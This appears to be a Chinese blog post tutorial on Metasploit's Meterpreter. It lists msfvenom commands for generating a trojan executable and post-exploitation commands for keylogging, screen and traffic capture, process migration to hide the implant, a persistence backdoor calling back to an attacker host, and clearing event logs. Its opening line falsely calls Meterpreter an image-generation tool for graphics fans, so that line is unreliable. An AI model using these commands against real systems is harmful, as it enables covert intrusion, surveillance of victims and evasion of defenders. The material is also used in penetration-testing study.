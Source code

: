 ```yaml
---
layout:     post
title:      Meterpreter-基础命令
subtitle:
date:       2020-5-9
author:     BY Diego
header-img: img/wenzhang/post-bg-Meterpreter.jpg
catalog: true
tags:
    - 工具
    - 渗透
---
```


# 一、基础

Meterpreter是个用来产生各种图像的命令。适用于广大图形爱好者。

![YejJ4s.png](https://s1.ax1x.com/2020/05/07/YejJ4s.png)


help 命令查看帮助
![YmeEyF.png](https://s1.ax1x.com/2020/05/07/YmeEyF.png)

核心命令如下

命令 | 含义
-|-
banner |  显示一个metasploit横幅
cd |  更改当前的工作目录
color |  切换颜色
connect |  连接与主机通信
exit  | 退出控制台
get  | 获取特定于上下文的变量的值
getg |  获取全局变量的值
grep | grep另一个命令的输出
help  | 帮助菜单
history |   显示命令历史
irb  | 进入irb脚本模式
load  | 加载一个框架插件
quit  | 退出控制台
route  | 通过会话路由流量
save |  保存活动的数据存储
sessions  |  转储会话列表并显示有关会话的信息
set |  将特定于上下文的变量设置为一个值
setg |  将全局变量设置为一个值
sleep |  在指定的秒数内不做任何事情
spool  | 将控制台输出写入文件以及屏幕
threads |  线程查看和操作后台线程
unload |  卸载框架插件
unset |  取消设置一个或多个特定于上下文的变量
unsetg |  取消设置一个或多个全局变量
version |  显示框架和控制台库版本号

在控制台内是可以直接执行命令的
[![YmmoCt.png](https://s1.ax1x.com/2020/05/07/YmmoCt.png)](https://imgchr.com/i/YmmoCt)

## Meterpreter中常用的反弹类型
**1.reverse_tcp**
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

**2.reverse_http**
基于http方式的反向连接，在网速慢的情况下不稳定。

**3.reverse_https**
基于https方式的反向连接，在网速慢的情况下不稳定， https如果反弹没有收到数据，可以将监听端口换成443试试

**4.bind_tcp**
这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
# 二、常见用法

## (1) windows

### ① msfvenom 生成木马
**查找payload**
```bash
msfvenom -l  payload | grep window
```
**生成木马**(正向连接型)
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp  lport=60005 -f exe -o test.exe
```
**配置Meterpreter**
```bash
use multi/handler
```
![YmtcFK.png](https://s1.ax1x.com/2020/05/07/YmtcFK.png)
![YmtgJO.png](https://s1.ax1x.com/2020/05/07/YmtgJO.png)

**会话管理**
background #把meterpreter后台挂起
bglist #提供所有正在运行的后台脚本的列表
sessions #
session -i number # 与第number个交互
session -k number # kill 第number
![YnTpPP.png](https://s1.ax1x.com/2020/05/08/YnTpPP.png)

**文件上传**
[![YmaNJf.png](https://s1.ax1x.com/2020/05/07/YmaNJf.png)](https://imgchr.com/i/YmaNJf)
[![YmaUW8.png](https://s1.ax1x.com/2020/05/07/YmaUW8.png)](https://imgchr.com/i/YmaUW8)

**执行命令**
"execute"命令为目标主机上执行一个命令，其中"execute -h"显示帮助信息。-f为执行要运行的命令, -H后台执行 -i交互 -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
![YmdGX4.png](https://s1.ax1x.com/2020/05/07/YmdGX4.png)

**文件查找**
![Ymd8cF.png](https://s1.ax1x.com/2020/05/07/Ymd8cF.png)

**修改文件** edit filename
**查看文件** cat filename
**目录** cd / dir

**端口转发**
当服务在内网，无法直接访问可以端口转发到本机
这里将目标的 80 转发到了 8888
```shell
portfwd add  -l 8888 -p 80 -r 192.168.1.107
```
![Yn5sZn.png](https://s1.ax1x.com/2020/05/08/Yn5sZn.png)
![Yn5yaq.png](https://s1.ax1x.com/2020/05/08/Yn5yaq.png)

**键盘监控**
keyscan_start # 开始捕获
keyscan_dump  # 打印
keyscan_stop  # 停止
![Ynb98x.png](https://s1.ax1x.com/2020/05/08/Ynb98x.png)

**进程迁移**
防止木马挂掉，可以将进程迁移到其他合法进程上如explorer.exe是Windows程序管理器或者文件资源管理器
1. ps |grep explorer.exe 通过ps找到进程PID
2. migrate  **
![YuDjoQ.png](https://s1.ax1x.com/2020/05/08/YuDjoQ.png)


**屏幕捕获**
use espia
screengrab 捕获
![Yu85PU.png](https://s1.ax1x.com/2020/05/08/Yu85PU.png)

**屏幕监控**
```shell
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
![YQZWHU.png](https://s1.ax1x.com/2020/05/09/YQZWHU.png)

**流量监控**
```shell
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
![YQEgGn.png](https://s1.ax1x.com/2020/05/09/YQEgGn.png)

**持久后门**
```bash
run persistence -X -i 5 -p 7777 -r 192.168.1.100
# -i 5 每五秒发送包 -p kali 接收端口 -r kail主机
reboot
exit

set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 7777
exploit
```
![YKW2DA.png](https://s1.ax1x.com/2020/05/08/YKW2DA.png)

**日志清除**
clearav


**待更新**
# 参考

[Metasploit 使用MSFconsole接口](https://www.fujieace.com/metasploit/msfconsole.html)

[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536#toc-9)

[]()

[]()
